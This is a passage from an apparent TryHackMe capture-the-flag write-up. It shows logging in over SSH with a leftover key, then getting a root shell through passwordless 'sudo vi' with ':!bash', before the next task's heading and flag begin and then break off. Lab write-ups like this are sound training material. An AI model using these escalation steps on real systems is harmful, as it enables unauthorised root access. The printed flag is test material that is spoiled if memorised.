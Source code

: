 #### 2. **Checked each key, only key9 had content.**

Downloaded key9, cleaned it, then SSH’d as dev:

```bash
chmod 600 key9
ssh -i key9 dev@10.10.x.x
```

---

#### 3. **Privilege escalation**

Checked sudo permissions:

```bash
sudo -l
```

✅ vi allowed without password.

---

#### 4. **Escalated via vi:**

```
sudo vi
:!bash
```

✅ Root shell obtained.

---

### 💡 **Lessons Learned**

* Always check for leftover SSH keys in exposed directories.
* vi sudo permissions remain an evergreen escalation vector.

---

<a id="task-20--echoed-streams"></a>

## 📝 **Task 20 – Echoed Streams**

### 🗂️ **Category:** Crypto

### 🎯 **Difficulty:** Easy

### 🏷️ **Flag:** THM{Echo\_Telemetry}

---

### 🔍 **Step-by-Step Walkthrough**

#### 1. **Challenge context**
